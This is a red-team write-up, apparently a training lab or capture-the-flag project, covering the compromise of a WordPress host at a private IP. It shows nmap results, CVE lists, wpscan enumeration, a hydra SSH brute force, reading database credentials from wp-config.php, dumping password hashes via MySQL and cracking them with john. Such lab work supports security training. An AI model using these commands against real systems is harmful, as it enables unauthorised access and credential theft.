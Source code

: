 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services 
- Critical Vulnerabilities 
- Exploitation

# Exposed Services

### Nmap scan results for each machine reveal the below services and OS details:

![01_nmap](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/01_nmap.png)

### This scan identifies the services below as potential points of entry:

  ```
    22/tcp SSH OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
    80/tcp http Apache httpd 2.4.10 ((Debian))
    111/tcp rpcbind 2-4 (RPC #100000)
    139/tcp netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp microsoft-ds Samba smbd 4.2.14-Debian (workgroup: WORKGROUP)
  ```

### Based on ths scan, the following vulnerabilities can be exploited on this system:

- [CVE-2021-28041 Open SSH](https://www.cve.org/CVERecord?id=CVE-2021-28041)
- [CVE-2017-15710 Apache https 2.4.10](https://www.cve.org/CVERecord?id=CVE-2017-15710)
- [CVE-2017-8779 rcpbind open port](https://www.cve.org/CVERecord?id=CVE-2017-8779)
- [CVE-2017-7494 Samba NetBIOS](https://www.cve.org/CVERecord?id=CVE-2017-7494)


# Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

- Enumerating WordPress site with `wpscan` security tool to obtain usernames Michael and Steven.
- Command used: `wpscan --url http://192.168.1.110/wordpress -eu` 
- Users found:

![02_wpusers](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/02_users.png)


### EXPLOIT:

- Cracking Michael's credentials with `hydra -l michael -P /usr/share/wordlist/rockyou.txt -s 22 <IP> ssh` or by guessing the password being the same as his name...

![03_ssh](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/03_ssh.png)

- `SSH` into Michael's account with `ssh michael@192.168.1.110`
- Searching for the `flag1` by using: `find . | xargs grep "flag1" *` or `grep -RE "flag1" html` 

![04_flag1](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/04_flag1.png)

![05_flag1](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/05_flag1.png)

- Searching for `flag2` in the `/var/www` directory and finding it easily:

![06_flag2]()

### EXPLOIT: 

- Finding the `MySQL` database credentials by printing the contents of `/var/www/html/wordpress/wp-config.php`. We can see that the username is `root` and the password is `R@v3nSecurity`:

![07_db1]()

- Using the credentials to login to MySQL with `mysql -u root -p` and searching for the user password hashes with the following sequence of commands:

View all databases: `show databases;` 

Use Wordpress DB: `use wordpress;`

Show Tables of Wordpress DB: `show tables;`

View all users table objects: `select * from wp_users`

![08_dbusers](https://raw.githubusercontent.com/yffenim/final_project/main/OffensiveReportImages/08_dbusers.png)

- Finding `flag3` and `flag4` by exploring the rest of the database tables. We run `select * from wp_posts` to find:

![09_flag3]()

![10_flag4]()

### EXPLOIT: 

- Using `john` to crack the password hashes for Steve's credentials: `john -wordlist:/usr/share/wordlists/rockyou.txt hash.txt` to find his password: pink84

![11_john]()

- Now we can `SSH` into Steven's account with: `ssh steven@192.168.1.110` and escalate privileges for root access:


![12_root]()
![13_root]()
